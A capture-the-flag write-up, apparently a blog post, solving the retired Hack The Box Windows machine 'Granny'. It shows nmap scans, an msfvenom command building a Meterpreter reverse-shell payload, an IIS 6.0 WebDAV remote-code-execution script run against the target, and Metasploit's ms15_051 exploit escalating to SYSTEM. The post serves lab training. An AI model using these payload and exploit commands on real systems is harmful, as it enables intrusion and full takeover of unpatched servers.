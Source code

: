 ```yaml
---
layout: post
title: Hack the Box - Granny
date: 2020-04-15 19:31:22 +0100
description: Granny, while similar to Grandpa, can be exploited using several different methods. The intended method of solving this machine is the widely-known Webdav upload vulnerability.
img: granny.png
fig-caption: Granny
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Granny, while similar to Grandpa, can be exploited using several different methods. The intended method of solving this machine is the widely-known Webdav upload vulnerability.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ sudo nmap -p- -T4  10.129.113.122 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 20:25 GMT
Nmap scan report for 10.129.113.122
Host is up (0.017s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```
From the port scan only one port was open, being port 80.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ sudo nmap -p80 --script vuln  10.129.113.122
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 20:39 GMT
Nmap scan report for 10.129.113.122
Host is up (0.017s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /_vti_bin/: Frontpage file or folder
|   /_vti_log/: Frontpage file or folder
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|   /_vti_bin/shtml.exe: Frontpage file or folder
|   /images/: Potentially interesting folder
|_  /_private/: Potentially interesting folder
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
```
Initially the vulnerability scan led me down a bit of a rabbit hole with the anonymous login extension being flagged as vulnerable. However after attempting to exploit FrontPage and coming back empty handed I attempted service enumeration.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ sudo nmap -p80 -A  10.129.113.122
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 21:13 GMT
Nmap scan report for 10.129.113.122
Host is up (0.017s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Date: Sun, 14 Mar 2021 21:13:55 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
```
After discovering the web server version a google returns that this version is vulnerable to a RCE vulnerability. In an attempt to not use metasploit I found a python script that can exploit this vulnerability [ExplodingCan](https://github.com/danigargu/explodingcan)
## Foothold
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ msfvenom -p windows/meterpreter/reverse_tcp -f raw  -e x86/alpha_mixed LHOST=10.10.14.27 LPORT=4448 > shellcode 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 770 (iteration=0)
x86/alpha_mixed chosen with final size 770
Payload size: 770 bytes
                                                                                                                                                                                                                                     
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ python 41738.py http://10.129.113.122/ shellcode                                                               
[*] Using URL: http://10.129.113.122/
[*] Server found: Microsoft-IIS/6.0
[*] Found IIS path size: 18
[*] Default IIS path: C:\Inetpub\wwwroot
[*] WebDAV request: OK
[*] Payload len: 2291
[*] Sending payload...
[*] Socket timeout
[+] The host is maybe vulnerable
```
Having generated the payload and sent it off using the script, as long as there is a metasploit listener it should receive the reverse shell.
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4448 
[*] Sending stage (175174 bytes) to 10.129.113.122
[*] Meterpreter session 1 opened (10.10.14.27:4448 -> 10.129.113.122:1038) at 2021-03-14 21:43:58 +0000
```
## Privilege Escalation
Once we receive the shell we have the network service system user, after we enumerate local exploits using the local_exploit_suggester in metasploit we find a successful exploit as shown below.
```
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.27:5555 
[*] Launching notepad to host the exploit...
[+] Process 3036 launched.
[*] Reflectively injecting the exploit DLL into 3036...
[*] Injecting exploit into 3036...
[*] Exploit injected. Injecting payload into 3036...
[*] Payload injected. Executing exploit...
[*] Sending stage (175174 bytes) to 10.129.113.122
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (10.10.14.27:5555 -> 10.129.113.122:1039) at 2021-03-14 21:52:37 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
